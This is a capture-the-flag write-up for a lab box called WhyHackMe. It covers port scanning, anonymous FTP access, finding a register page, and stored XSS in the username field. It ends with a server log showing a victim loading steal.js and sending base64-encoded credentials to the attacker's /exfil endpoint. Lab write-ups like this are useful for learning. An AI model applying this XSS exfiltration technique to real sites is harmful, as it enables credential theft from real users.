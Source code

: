 # WhyHackMe

## Port scan

```bash
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             318 Mar 14  2023 update.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.9.227.162
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 47:71:2b:90:7d:89:b8:e9:b4:6a:76:c1:50:49:43:cf (RSA)

<<SNIPPED>>

80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Welcome!!
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```



## Ftp files

* Since anonymous login was enabled we can go ahead  and grab the file

```bash
└─➜ ftp 10.10.59.115                                                                                                                                                                     [0]
Connected to 10.10.59.115.
220 (vsFTPd 3.0.3)
Name (10.10.59.115:heap): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        119          4096 Mar 14  2023 .
drwxr-xr-x    2 0        119          4096 Mar 14  2023 ..
-rw-r--r--    1 0        0             318 Mar 14  2023 update.txt
g226 Directory send OK.
ftp> get update.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for update.txt (318 bytes).
226 Transfer complete.
318 bytes received in 7.1e-05 seconds (4.27 Mbytes/s)
ftp> quit
221 Goodbye.

```



### File (update.txt)

```bash
└─➜ cat update.txt    ]
Hey I just removed the old user mike because that account was 
compromised and for any of you who wants the creds of new account 
visit 127.0.0.1/dir/pass.txt and don't worry this file is 
only accessible by localhost(127.0.0.1), 
so nobody else can view it except me or people with access to the common account.
- admin
```

After reading that we can clearly see a hint of SSRF.&#x20;



## Web page

After you read the blog, you can see it wants you to login first to comment down on the blog.

<figure><img src="../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

## Dir scan

```bash
[Status: 200, Size: 643, Words: 36, Lines: 23, Duration: 147ms]
    * FUZZ: register.php
```

Found a register portal.



## Web exploitation

After registering myself with `test:test` i tried exploiting XSS, CMD injection, SQLi but none worked, maybe username parameter is vulnerable.

<figure><img src="../../.gitbook/assets/image (78).png" alt=""><figcaption></figcaption></figure>

After login, i can now comment on blog

<figure><img src="../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

Yessss, the username parameter was actually vulnerable to XSS.

* Registering new user with XSS payload that will give us admin cookie.

We need to steal contents of a file from a server with XSS, upon google searching we can go on following link

{% embed url="https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting#steal-page-content" %}

Using that we get creds,

```bash
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.17.41.43 - - [21/Mar/2024 09:52:51] "GET /steal.js HTTP/1.1" 200 -
10.17.41.43 - - [21/Mar/2024 09:52:51] "GET /steal.js HTTP/1.1" 200 -
10.17.41.43 - - [21/Mar/2024 09:52:51] code 404, message File not found
10.17.41.43 - - [21/Mar/2024 09:52:51] "GET /exfil? HTTP/1.1" 404 -
10.10.234.35 - - [21/Mar/2024 09:53:03] "GET /steal.js HTTP/1.1" 200 -
10.10.234.35 - - [21/Mar/2024 09:53:03] code 404, message File not found
10.10.234.35 - - [21/Mar/2024 09:53:03] "GET /exfil?amFjazpXaHl <snip> Z0lESwo= HTTP/1.1" 404 -

```





